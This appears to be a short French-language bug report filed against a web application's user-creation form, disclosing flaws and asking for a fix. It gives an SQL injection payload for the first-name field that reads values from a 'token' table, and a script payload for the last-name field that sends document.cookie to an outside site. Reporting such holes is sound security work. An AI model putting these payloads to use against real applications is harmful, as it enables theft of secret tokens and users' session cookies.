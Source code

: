 # SQL Injection

Dans le formulaire de création d'utilisateur, vous pouvez saisir :
* prenom : `',(select token_value from token)) # ` 


Autre injection possible : 
* Nom : `<script>document.location="http://www.google.fr?data="+document.cookie</script>`
* Prénom : `Attaquant`

Cela a pour conséquence de rendre accessible une valeur située dans une autre table `token`.

Pourriez-vous corriger ?
